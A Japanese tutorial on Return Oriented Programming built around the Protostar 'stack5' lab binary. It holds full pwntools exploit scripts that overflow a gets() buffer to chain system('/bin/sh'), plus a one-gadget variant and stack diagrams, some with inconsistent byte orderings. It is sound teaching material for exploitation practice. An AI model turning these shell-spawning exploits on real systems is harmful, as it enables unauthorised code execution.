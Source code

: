 
## はじめに
Return Oriented Programming（ROP）とは、とある関数のスタックフレームの直後を上書きすることで、改竄なコールスタックを作る技術である。行うと、引数を自由に用意することが出来、自由な関数を呼び出すことが出来ます。それに加え、メモリに既に存在している命令を再利用することで、ASLRによるスタック領域の位置のランダム化を迂回できるという利点もあるため、ROPはかなり強い攻撃ですね。

さて、アーキテクチャによりスタック領域にあるコールスタックの形が変わるので、参照のため、以下x86とx86_64のスタック構造を記録しました。

これ以降、Protostar2の「stack5」問題を例問として使っていきます。
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## 32ビット上

```
#!/usr/bin/env python2
from pwn import *

p = process("./stack5")

pop_ebx = 0x0804901e
str_binsh = 0xf7f68b35
addr_system = 0xf7e295a0
addr_exit = 0xf7e1c690

payload = "a" * 0x48 + p32(0x0)
payload += p32(addr_system) + p32(pop_ebx) + p32(str_binsh) # system("/bin/sh")
payload += p32(addr_exit) + p32(pop_ebx) + p32(0x00000000)  # exit(0)

p.sendline(payload)
p.interactive()
p.close()
```
```
+------------+--+--+--+--+--+--+
| 0xffffd588 |   00 00 00 00   |          // ebp
+------------+--+--+--+--+--+--+
| 0xffffd58c |   a0 95 e2 f7   | system() // 関数１
| 0xffffd590 |   1e 90 04 08   | pop ebx  // ESPを調整する
| 0xffffd594 |   35 8b f6 f7   | /bin/sh  // 第一引数
+------------+--+--+--+--+--+--+
| 0xffffd598 |   90 c6 e1 f7   | exit()   // 関数２
| 0xffffd59c |   1e 90 04 08   | pop ebx  // ESPを調整する
| 0xffffd5a0 |   00 00 00 00   | 0        // 第一引数
+------------+--+--+--+--+--+--+
```

## 64ビット上

```
#!/usr/bin/env python2
from pwn import *

p = process("./stack5")

libc_base = 0x7ffff7dd7000

pop_rdi = libc_base + 0x26542
str_binsh = libc_base + 0x1afb84
addr_system = libc_base + 0x52fd0
addr_exit = libc_base + 0x473c0

payload = "a" * 0x40 + p64(0x0)
payload += p64(pop_rdi) + p64(str_binsh) + p64(addr_system) # system("/bin/sh")
payload += p64(pop_rdi) + p64(0x00000000) + p64(addr_exit)  # exit(0)

p.sendline(payload)
p.interactive()
p.close()
```
```
+----------------+--+--+--+--+--+--+--+--+--+--+
| 0x7fffffffe440 |   00 00 00 00 00 00 00 00   |          // rbp
+----------------+--+--+--+--+--+--+--+--+--+--+
| 0x7fffffffe448 |   f7 df d5 42 00 00 ff 7f   | pop rdi  // RDIを用意する
| 0x7fffffffe450 |   f7 f8 6b 84 00 00 ff 7f   | /bin/sh  // RDIに"/bin/sh"のポインタ
| 0x7fffffffe458 |   f7 e2 9f d0 00 00 ff 7f   | system() // systemを呼び出す
+----------------+--+--+--+--+--+--+--+--+--+--+
| 0x7fffffffe460 |   f7 df d5 42 00 00 ff 7f   | pop rdi  // RDIを用意する
| 0x7fffffffe468 |   00 00 00 00 00 00 00 00   | 0        // RDIに0を
| 0x7fffffffe470 |   f7 e1 e3 c0 00 00 ff 7f   | exit()   // exitを呼び出す
+----------------+--+--+--+--+--+--+--+--+--+--+
```

基本的に64ビットではRDIが第一、RSIが第二、RDXが第三引数です。３引数以上を求める関数は実際に少ないと思いますが、第４引数からはr8~r15が使われるらしいです（試したことはない）

## ARM
// TODO

## one-gadget

たまには、コールスタックを奪うことが出来ず、一つのジャンプだけでシェルをスポーンしなければいけない場合があります。そんなときに、one-gadgetという技術を使いましょう。名前通りに、one-gadgetとは、関数のようにただ一回callまたjmpするだけで/bin/shを実行してくれる命令列（すなわちROPガジェット）のことです。特にLIBC内にはこういうone-gadgetが複数存在します。

さて、与えるLIBCを探してone-gadgetの位置を見つけ出してくれるrubyスクリプト「[one_gadget](https://github.com/david942j/one_gadget)」で私のlibcを検索し、見つけ出したone-gadgetを使ってみましょう。
```
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
$
```
```
#!/usr/bin/env python2
from pwn import *

p = process("./stack5")

libc_base = 0x7ffff7dd7000
one_gadget = libc_base + 0x106ef8

payload = "a" * 0x40 + p64(0x0)
payload += p64(one_gadget)

p.sendline(payload)
p.interactive()
p.close()
```
```
+----------------+--+--+--+--+--+--+--+--+--+--+
| 0x7fffffffe440 |   00 00 00 00 00 00 00 00   | // rbp
+----------------+--+--+--+--+--+--+--+--+--+--+
| 0x7fffffffe448 |   f7 ed de f8 00 00 ff f7   | // one-gadget
+----------------+--+--+--+--+--+--+--+--+--+--+
```
